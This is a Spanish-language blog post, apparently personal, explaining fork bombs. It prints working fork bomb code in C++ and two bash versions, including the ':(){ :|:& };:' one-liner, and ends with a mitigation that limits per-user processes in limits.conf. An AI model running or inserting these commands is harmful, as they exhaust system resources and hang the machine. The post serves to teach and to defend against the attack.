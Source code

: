 ```yaml
---
layout: single
title: Arduino - Rubber Ducky 
excerpt: "**¿Qué es una bomba fork?**
Una bomba fork es un tipo de ataque del tipo denegación de servicio sobre un 
computador implementando una operación fork o alguna otra funcionalidad 
equivalente mediante la cual un proceso es capaz de autorreplicarse.
La bomba fork es considerado un wabbit, ya que no se autorreplica de la misma 
forma que los gusanos o los virus.

date: 2022-05-29
classes: wide
header:
  teaser: /assets/images/bomba/bomba.jpg
  teaser_home_page: true
  icon: /assets/images/logofairy.png
categories:
  - Arduino
tags:  
  - bash
  - ino
---
```


![](/assets/images/bomba/fork.jpg)


Una bomba fork funciona creando una gran cantidad de procesos muy rápidamente 
con el objetivo de saturar el espacio disponible en la lista de procesos 
mantenida por el sistema operativo del computador. 
Si la tabla de procesos se llega a saturar, entonces no se pueden iniciar 
nuevos programas hasta que no se cierre alguno. En el caso que esto suceda, es
muy poco probable que se pueda iniciar un programa útil ya que los procesos de
la bomba estarán esperando para poder crear nuevos procesos a la primera 
oportunidad que se les conceda.

Las bombas fork no sólo ocupan espacio dentro de la lista de procesos, también 
consumen tiempo de proceso y memoria de la máquina donde se ejecutan. 
Como resultado de esto, los ordenadores se vuelven lentos e incluso se pueden 
volver inutilizables dada la falta de memoria y la imposibilidad de aprovechar
el procesador.


## C++

## Bomba Fork en C++

Para utilizar la funcion fork en C o C++ se debe incluir la libreria <unistd.h>


![](/assets/images/bomba/c++.png)

```c++
#include <unistd.h>
int main(){
    while(true) fork();
}

```

## Bomba Fork en BASH

Para crear una bomba fork en bash solo se debe crear una función vacía, 
que se llame así misma y su salida sea redirigida a la misma función, 
la cual se ejecutara en segundo plano. O sea, cada vez que se llame la función 
se generara un nuevo proceso que correra en segundo plano.



```bash

bomba_fork() { bomba_fork|bomba_fork & }; bomba_fork


```
![](/assets/images/bomba/bash.png)

## Forma mas simplificada

```bash

:() { : | :& } ; :

```
## Como evitar este ataque en Linux

En mi test de la bomba fork para evitar que me cuelgue el sistema, solo permití 
a mi usuario «ema» que pueda ejecutar 15 procesos como máximo. 
Si se observa en la imagen donde ejecuto la bomba fork en bash se interrumpió 
la ejecucion luego de que se crearan 15 procesos.

Para realizar esta configuración solo se debe editar el archivo 
«/etc/security/limits.conf». Donde se debe definir la cantidad de procesos que 
se le permitirá ejecutar a un usuario del sistema.

![](/assets/images/bomba/security.png)

